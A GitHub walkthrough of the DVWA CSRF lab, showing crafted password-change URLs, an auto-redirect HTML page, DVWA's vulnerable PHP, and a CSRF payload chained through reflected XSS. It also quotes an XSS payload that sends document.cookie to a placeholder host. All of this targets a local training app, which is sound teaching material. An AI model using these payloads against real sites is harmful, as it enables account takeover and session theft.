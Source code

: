 # CSRF

## About
> CSRF is an attack that forces an end user to execute unwanted actions on a web application in which they are currently authenticated. With a little help of social engineering (such as sending a link via email/chat), an attacker may force the users of a web application to execute actions of the attacker's choosing.
> 
> A successful CSRF exploit can compromise end user data and operation in case of normal user. If the targeted end user is the administrator account, this can compromise the entire web application.
> 
> This attack may also be called "XSRF", similar to "Cross Site Scripting (XSS)", and they are often used together.

Source: DVWA Documentation

## Low Security
The functionality of this exercise is a change password input and the objective of the challenge is to make the current user change their own password, without them knowing about their actions, using a CSRF attack.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf1.png?raw=true">
</p>

We also have a Test Credentials button which will send us to other window where we can test the current credentials.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf2.png?raw=true">
</p>

After changing the password, the URL will look like this:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf3.png?raw=true">
</p>

Of course is bad using the password in plaintext as parameter, but just looking at the URL, we can ask ourselves what would happen if someone visit such a URL? Let's try it out!<br/>
For example we craft the following URL: `http://localhost/DVWA/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change#` and send it to someone.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf4.png?raw=true">
</p>

When the victim visits this URL, the action of changing their password is automatically done without their consent. However, the victim needs to be already logged-in to the web application.<br/>

The source code:
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

Let's try other exploitation methods for this vulnerability. A URL like the one presented earlier, would look suspicious, so will be better to host a server that is redirecting the user to the one that we need.<br/>
We can ask the A.I. to generate us a HTML code if we don't know how to do this.
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="refresh" content="0;url=http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#">
<title>Redirecting...</title>
</head>
<body>
<script>
window.location.replace("http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#");
</script>
</body>
</html>
```
We will save this file as index.html and start a python server, on port 4445, in the same location with the html file: `python3 -m http.server 4445`.<br/>
Now visiting the URL: `http://127.0.0.1:4445/index.html`, which looks better now, will redirect us to the vulnerable URL that will change the password.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf5.png?raw=true">
</p>

## Medium Security
"For the Medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must come from the web application so it can be trusted"<br/>

Source code:
```php
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
```
It's true that we can solve it as earlier and modify the Referer HTTP header with Burp Suite, but this will not work in real life because is happening on the victim machine.<br/>
To solve this we will need to chain the vulnerability with XSS or even File Upload. The request must come from the same server.<br/>
I recommend to check the XSS challenges first.<br/>

We have this payload from the XSS Reflected vulnerability `<img src=x onerror='fetch("http://<IP>/?cookie=" + document.cookie)'>`. This one is used to grab the cookie.<br/>
We will take the CSRF URL and add it here instead.<br/>
When someone clicks the final URL, will be sent to XSS endpoint where the javascript code is executed and the user is redirected to the CSRF URL where the change password method is triggered.<br/>
The problem is that the payload must be encrypted to work properly, so it will help first to add it manually in the XSS Reflected challenge input, to send it, and then to grab the final encrypted URL from the browser.<br/>
Then we can change manually the password and send the URL to someone.

Final payload:`http://localhost/DVWA/vulnerabilities/xss_r/?name=<img+src%3Dx+onerror%3D'fetch("http%3A%2F%2Flocalhost%2FDVWA%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword4%26password_conf%3Dpassword4%26Change%3DChange%23")'>#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf6.png?raw=true">
</p>

## High Security
The High level implemented a CSRF token. To exploit this, we need to take somehow the user token and then to use it for the malicious request.<br/>
We can check the form format in the source code:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf7.png?raw=true">
</p>

The main problem is how to grab the user_token because this is available only in the csrf page.
In order to exploit this, we will need to use iframe and File Upload vulnerability.<br/>
First we will create the following exploit and save it as csrf.html:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf8.png?raw=true">
</p>

Author of the script: https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695 <br/>

Create an iframe of the csrf path with the id "myFrame" and then use it in the payload() function to take the user_token and send it further.<br/>
The elements are hidden because we don't want to expose this to the target.<br/>
We will set the security to Low in order to upload the file on the server. The main goal is to solve only the csrf challenge on High level, so for a moment we can set it to Low for the additional steps.<br/>
Then after the file is uploaded, we can send the full path to our target. When the page is visited, this is happening:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf9.png?raw=true">
</p>

But the password is successfully changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf10.png?raw=true">
</p>

We can also chain this vulnerability with the Stored XSS and anyone visiting the page will have the password changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf11.png?raw=true">
</p>

## Impossible Security
For the Impossible level, the application requires current password as well as the new password.<br/>
As the attacker does not know this, the site is protected against CSRF style attacks.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf12.png?raw=true">
</p>

